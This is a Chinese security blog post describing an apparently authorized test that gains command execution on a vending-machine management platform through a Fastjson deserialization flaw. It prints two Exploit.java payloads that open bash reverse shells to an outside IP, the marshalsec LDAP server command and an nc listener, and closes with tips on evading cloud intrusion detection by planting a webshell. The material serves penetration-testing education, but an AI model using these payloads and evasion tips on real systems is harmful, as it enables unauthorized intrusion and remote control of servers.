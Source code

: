 > 原文链接: https://www.anquanke.com//post/id/207301 


# 对某自动售货机的测试记录之命令执行


                                阅读量   
                                **180470**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">7</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t0121f90b9c7b5cea16.jpg)](https://p5.ssl.qhimg.com/t0121f90b9c7b5cea16.jpg)



上一讲说了随手一测就[发现了越权](https://www.anquanke.com/post/id/207189)，程序员修改之后依然可以绕过鉴权。

但是我想深挖，肯定还有其他问题。

本次测试为授权友情测试，本文提交之前已通知厂商修复，谁让我白帽子，谁让我钱在上面呢。：）



## 执行条件:

需要拥有后台账号,任何权限都行。



## 详情

上一讲的说了越权的事，大家也注意到了，发送的POST包为**Json**格式。

所以大胆猜测一下，存在**fastjson**的命令执行.

**fastjson**的漏洞原因网上很多，我就不多说了，大家跟着来看一下我的复现过程：

### <a class="reference-link" name="%E5%87%86%E5%A4%87"></a>准备

#### <a class="reference-link" name="%E9%A6%96%E5%85%88%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E5%87%86%E5%A4%87%E4%B8%89%E4%B8%AA%E6%96%87%E4%BB%B6:"></a>首先我们需要准备三个文件:

```
marshalsec-0.0.3-SNAPSHOT-all.jar : https://github.com/mbechler/marshalsec
Exploit.java
Exploit.class
```

Marshalsec我编译的时候遇到坑，所以大家编译的时候注意自己的JDK版本。

Exploit.java也遇到了坑，看是网上找的是一个据说能秒杀很多版本的exp:

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
public class Exploit`{`
    public Exploit() throws Exception `{`
        //Process p = Runtime.getRuntime().exec(new String[]`{`"cmd","/c","calc.exe"`}`);
        Process p = Runtime.getRuntime().exec(new String[]`{`"/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/xx.xx.xx.xx/1888;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done"`}`);
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));
        String line;
        while((line = reader.readLine()) != null) `{`
            System.out.println(line);
        `}`
        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    `}`
    public static void main(String[] args) throws Exception `{`
    `}`
`}`
```

实际在利用的时候如何都不成功，浪费了我很多时间，最后是用了普通版本的exp反而成功，由此可以猜测服务器的Fastjson版本相当低.

```
public class Exploit `{`
    public Exploit()`{`
        try`{`
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i &gt;&amp;/dev/tcp/yourIP:8888 0&gt;&amp;1"); //你需要在服务器执行的命令，我这里是反弹shell，需要修改为自己的IP和监听端口
        `}`catch(Exception e)`{`
            e.printStackTrace();
        `}`
    `}`
    public static void main(String[] argv)`{`
        Exploit e = new Exploit();
    `}`
`}`
```

准备好Exploit.java之后，使用javac命令即可编译为我们需要的Exploit.class

#### <a class="reference-link" name="%E5%87%86%E5%A4%87%E6%9C%8D%E5%8A%A1"></a>准备服务

这三个文件都可以直接放在有公网IP的服务器上.

Marshalsec用于RMI和LDAP的服务创建.

开启RMI或LDAP服务运行命令:

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IP/#Exploit
```

Exploit.class需要放置在公网任何webserver下，只要目标服务器可以下载即可.

还需要在当前服务器运行

```
nc -lvvp 8888
```

监听本地端口，该端口需要与Exploit内的端口和服务器IP一致。

### <a class="reference-link" name="%E6%89%A7%E8%A1%8C"></a>执行

以上文件和服务都准备好之后，可以发送自己的POST包执行：

[![](https://p2.ssl.qhimg.com/t018eaa86e9ffeb234e.png)](https://p2.ssl.qhimg.com/t018eaa86e9ffeb234e.png)

POST包需要根据对方Fastjson版本做修改和绕过,请自行搜索.

### <a class="reference-link" name="%E7%BB%93%E6%9E%9C"></a>结果

如果对方存在Fastjson反序列化漏洞，那么你的服务器会收到来自目标服务器的访问.:

[![](https://p2.ssl.qhimg.com/t0194f517a456824dde.png)](https://p2.ssl.qhimg.com/t0194f517a456824dde.png)

LDAP将会把请求Redirect到Webserver，Fastjson将会下载Exploit.class，并解析运行。

如果一切顺利，你监听的端口将会收到反弹shell

[![](https://p4.ssl.qhimg.com/t014141d082d3ed410c.png)](https://p4.ssl.qhimg.com/t014141d082d3ed410c.png)

同时也收到了平台程序员的问询:

[![](https://p1.ssl.qhimg.com/t015b1756bd126ef764.png)](https://p1.ssl.qhimg.com/t015b1756bd126ef764.png)

### <a class="reference-link" name="%E6%80%9D%E8%80%83"></a>思考

运营商马上就发现了服务器被入侵，所以如果遇到是阿里云等主流云服务器，如果想隐藏自己建议不要使用反弹shell的形式，毕竟特征太明显。。比如可以考虑自动化写入Webshell

还有就是经过我的分析，市面上的售货机管理平台的核心代码非常可能是同一套，所以该利用方式非常可能是通用的，不过其他没权限没法测试。

### <a class="reference-link" name="%E4%BF%AE%E5%A4%8D%E5%BB%BA%E8%AE%AE"></a>修复建议

排查所有服务的jar包风险，并升级.

### <a class="reference-link" name="BTW"></a>BTW

目前提交的两个漏洞都是有利用前提的，那么是否可以不需要账号就直接入侵进自动售货机的管理平台，然后控制全国所有售货机呢？

作为渗透测试工程师决定有必要操作一波，感兴趣的人多的话，我再更新。



## 扩展阅读:

[从零开始学习fastjson反序列化](https://www.freebuf.com/vuls/228099.html)

[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

[Fastjson 反序列化漏洞自动化检测](https://koalr.me/post/fastjson-deserialization-detection/)
